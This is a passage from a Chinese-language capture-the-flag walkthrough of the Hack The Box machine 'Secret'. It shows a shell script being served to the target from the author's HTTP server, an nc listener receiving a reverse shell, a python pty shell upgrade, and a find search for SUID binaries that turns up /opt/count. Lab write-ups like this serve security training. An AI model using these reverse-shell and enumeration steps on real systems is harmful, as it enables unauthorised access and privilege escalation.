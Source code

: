 我们看到了从我们的网络服务器上下载的文件:

```
┌──(root💀kali)-[~/htb/secret]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.120 - - [18/Nov/2021 22:11:37] "GET /pencer_shell.sh HTTP/1.1" 200 -
```

然后我们看到我们的外壳被连接起来:

```
┌──(root💀kali)-[~/htb/secret]
└─# nc -lvvp 1337
listening on [any] 1337 ...
connect to [10.10.15.15] from secret.htb [10.10.11.120] 51496
bash: cannot set terminal process group (1116): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$ id
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
```

首先让我们得到一个更好的外壳:

```
dasith@secret:~/local-web$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
dasith@secret:~/local-web$ ^Z
zsh: suspended  nc -lvvp 1337
┌──(root💀kali)-[~/htb/secret]
└─# stty raw -echo; fg
[1]  + continued  nc -lvvp 1337
dasith@secret:~/local-web$
```

# 列举

排序后，我四处查看，最终找到了一个名为 count 的文件，它设置了 sticky 位:

```
dasith@secret:~/local-web$ find / -type f -perm -u=s 2>/dev/null
<SNIP>
/opt/count
```

我们可以假设这是重要的。如果我们查看/opt 文件夹，我们还会发现计数文件的源代码:

```
dasith@secret:/opt$ ls -l
-rw-r--r-- 1 root root  3736 Oct  7 10:01 code.c
-rwsr-xr-x 1 root root 17824 Oct  7 10:03 count
-rw-r--r-- 1 root root  4622 Oct  7 10:04 valgrind.log

dasith@secret:~/local-web$ file /opt/count
/opt/count: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=615b7e12374cd1932161a6a9d9a737a63c7be09a, for GNU/Linux 3.2.0, not stripped
```

